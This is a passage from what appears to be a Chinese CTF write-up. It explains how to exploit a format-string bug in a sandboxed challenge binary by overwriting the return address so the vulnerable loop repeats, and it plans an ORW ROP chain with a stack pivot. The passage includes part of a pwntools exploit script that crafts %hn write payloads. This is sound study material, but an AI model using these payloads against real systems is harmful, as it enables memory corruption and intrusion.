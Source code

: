有了任意读写，我们可以获取到libc、pie、satck的值，但是由于沙箱规则的限制，需要写入大量的值，需要反复触发格式化字符串的漏洞，但是，如下所示，程序只给了我们2次触发机会。

```
signed int i;
for ( i = 0; i &lt;= 1; ++i )                    
    vuln(i);
```

然后关键的问题就落到如何构造循环上来了。<br>
这里的思路如下：

```
//stack上的返回地址
.text:0000000000000D4D                 add     [rbp+var_8], 1
//修改为
.text:0000000000000D3A                 mov     [rbp+var_8], 0
```

这样的话，每第二次循环我们作如上的修改，就可以做到循环，每两次获得一次任意读写的机会。

### <a class="reference-link" name="0x01%20exploit"></a>0x01 exploit

经过上述的分析，利用思路已经相对清晰了，基本的利用步骤如下：
1. 第一次触发格式化字符串漏洞来泄漏stack、pie&amp;&amp;libc的相关信息
<li>第二次修改返回地址0x4d为0x3a，将i的值再次置0
<pre><code class="hljs cs">.text:0000000000000D4D                 add     [rbp+var_8], 1
//stack上的返回地址修改为
.text:0000000000000D3A                 mov     [rbp+var_8], 0
</code></pre>
依此类推，获得多次的任意写。
</li>
1. 在bss上写入orw的rop。
1. 最后进行栈迁移执行rop，得到flag。
具体的细节可以参考下面的exp脚本。

### <a class="reference-link" name="0x02%20myexp"></a>0x02 myexp

具体的exp脚本如下，写起来还是挺繁琐的。

```
from pwn import *
context.log_level = 'debug'


def debug():
    print pidof(p)
    pause()

def write(addr,val):
    value = str(val).rjust(6,'0')
    #offset = str(offset).rjust(4,'0')
    if val == 0:
        name = '%' + '0010' + '$hn'+'a'*8 + p64(addr)
    else:
        name = '%' + value + 'c' + '%' + '0010' + '$hn' + p64(addr)
    p.sendafter('name?',name)
    p.sendlineafter("how old are you??",str(100))

    #in order to the next loop
    name='%'+str(0x3a)+"c"+"%10$hhnaaaaa"+p64(stack-0x18)
    p.sendafter('name?',name)
    p.sendlineafter("how old are you??",str(100))

def write_addr(offset,val):
    write(pie+0x202500+offset,val&amp;0xffff)
```